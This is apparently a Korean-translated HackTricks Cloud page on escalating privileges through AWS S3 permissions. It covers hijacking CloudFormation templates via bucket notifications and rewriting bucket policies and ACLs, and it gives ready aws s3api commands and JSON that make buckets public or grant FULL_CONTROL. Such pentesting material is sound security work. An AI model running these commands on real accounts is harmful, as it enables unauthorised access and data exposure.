 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

흥미로운 버킷에 대한 이러한 권한을 가진 공격자는 리소스를 탈취하고 권한을 상승시킬 수 있습니다.

예를 들어, "cf-templates-nohnwfax6a6i-us-east-1"이라는 클라우드포메이션 버킷에 대한 이러한 **권한을 가진 공격자는 배포를 탈취할 수 있습니다**. 접근은 다음 정책으로 부여될 수 있습니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
그리고 하이재킹은 **템플릿이 버킷에 업로드되는 순간부터** **템플릿이 배포되는 순간까지의 작은 시간 창** 때문에 가능합니다. 공격자는 자신의 계정에 **람다 함수**를 생성하여 **버킷 알림이 전송될 때 트리거**되도록 하고, **버킷**의 **내용**을 **하이재킹**할 수 있습니다.

![](<../../../.gitbook/assets/image (174).png>)

Pacu 모듈 [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection)을 사용하여 이 공격을 자동화할 수 있습니다.\
자세한 정보는 원본 연구를 확인하세요: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

이것들은 **S3에 객체를 가져오고 업로드하는** 권한입니다. AWS 내부(및 외부)의 여러 서비스가 **구성 파일**을 저장하기 위해 S3 스토리지를 사용합니다.\
이들에 대한 **읽기 접근** 권한이 있는 공격자는 그 안에서 **민감한 정보**를 찾을 수 있습니다.\
이들에 대한 **쓰기 접근** 권한이 있는 공격자는 **데이터를 수정하여 일부 서비스를 악용하고 권한을 상승시키려고 시도할 수 있습니다**.\
다음은 몇 가지 예입니다:

* EC2 인스턴스가 **S3 버킷에 사용자 데이터를 저장하고 있는 경우**, 공격자는 이를 수정하여 **EC2 인스턴스 내에서 임의의 코드를 실행**할 수 있습니다.

### `s3:PutBucketPolicy`

공격자는 **같은 계정에서** 있어야 하며, 그렇지 않으면 `지정된 방법이 허용되지 않습니다`라는 오류가 발생합니다. 이 권한을 가진 공격자는 자신에게 버킷에 대한 더 많은 권한을 부여하여 읽기, 쓰기, 수정, 삭제 및 버킷을 노출할 수 있습니다.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

공격자는 이러한 권한을 악용하여 **특정 버킷에 대한 더 많은 접근 권한을 부여받을 수 있습니다**.\
공격자가 동일한 계정에 속할 필요는 없음을 유의하십시오. 또한 쓰기 접근 권한
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

공격자는 이러한 권한을 악용하여 버킷 내 특정 객체에 대한 더 많은 액세스를 부여받을 수 있습니다.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

이 권한을 가진 공격자는 특정 객체 버전에 Acl을 설정할 수 있을 것으로 예상됩니다.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
